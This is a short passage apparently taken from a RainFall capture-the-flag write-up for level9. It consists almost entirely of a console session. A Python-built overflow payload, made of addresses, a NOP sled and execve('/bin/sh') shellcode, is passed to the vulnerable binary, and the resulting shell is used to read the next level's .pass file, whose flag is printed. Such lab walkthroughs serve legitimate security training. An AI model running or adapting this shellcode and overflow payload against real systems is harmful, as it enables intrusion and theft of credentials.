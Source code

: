 ```console
level9@RainFall:~$ ./level9 `python -c 'print "\x10\xa0\x04\x08" + "\x90"*14 + "\xeb\x16\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x90"*54 + "\x0c\xa0\x04\x08"'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
